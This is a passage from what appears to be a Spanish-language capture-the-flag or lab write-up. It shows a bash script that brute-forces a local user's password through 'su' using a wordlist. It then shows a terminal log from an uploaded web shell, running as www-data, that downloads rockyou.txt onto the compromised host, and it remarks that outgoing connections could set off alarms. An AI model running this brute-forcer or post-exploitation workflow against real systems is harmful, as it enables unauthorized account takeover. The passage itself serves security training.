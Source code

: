 ```bash
if [[ $# != 2 ]]; then
    mostrar_ayuda
fi

# Imprimimos el banner al momento de realizar el ataque.
imprimir_banner

# Bucle while que lee línea a línea el contenido de la variable $diccionario, que a su vez esta variable recibe el diccionario como parámetro.
while IFS= read -r password; do
    echo "Probando contraseña: $password"
    if timeout 0.1 bash -c "echo '$password' | su $usuario -c 'echo Hello'" > /dev/null 2>&1; then
        clear
        echo -e "\e[1;32mContraseña encontrada para el usuario $usuario: $password\e[0m"
        break
    fi
done < "$diccionario"
```
Pero aquí vamos a tener que realizar un cambio que en un sistema con bajos recursos podría llegar a saturar más el sistema. Vamos a cambiar el `timeout 0.1` a `timeout 0.05`. Solamente en caso de falsos positivos o de sistema con bajos recursos volvería al **0.1** o incluso si hace falta a entre **0.5** y **1**.

¿Cómo lo vamos a subir? Pues vamos a subir tanto el diccionario como el script igual que como hemos subido el archivo **shell.php** o bien podríamos con **python abrir un servidor web** y con **wget** o **curl** descargar los archivos, pero esta segunda opción podría hacer saltar muchas alarmas al generar una conexión saliente y no entrante. Así pues, usaremos la opción más fácil y cómoda para también evitar problemas con permisos en los ficheros y directorios en los que trabajaremos.

Se ha tratado de subir al archivo rockyou.txt sin comprimir y da error al subir, supongo que por el tamaño máximo de trabajo configurado en el servidor web.

Alternativa:
```java
www-data@861ac52240d6:…/html/uploads# curl -s https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt -o rockyou.txt
sh: 1: curl: not found

www-data@861ac52240d6:…/html/uploads# wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
--2025-01-26 04:37:57--  https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
Resolving github.com (github.com)... 140.82.121.3
Connecting to github.com (github.com)|140.82.121.3|:443... connected.
HTTP request sent, awaiting response... 302 Found
Resolving objects.githubusercontent.com (objects.githubusercontent.com)... 
Connecting to objects.githubusercontent.com (objects.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 139921497 (133M) [application/octet-stream]
Saving to: 'rockyou.txt'

     0K .......... .......... .......... .......... ..........  0% 1.89M 71s
    50K .......... .......... .......... .......... ..........  0% 3.65M 54s
   100K .......... .......... .......... .......... ..........  0% 19.1M 38s  
                                      [...]
136550K .......... .......... .......... .......... .......... 99%  224M 0s
136600K .......... .......... .......... .......... ..        100%  197M=2.4s

2025-01-26 04:38:00 (54.9 MB/s) - 'rockyou.txt' saved [139921497/139921497]


www-data@861ac52240d6:…/html/uploads# ls -la
total 136980
```
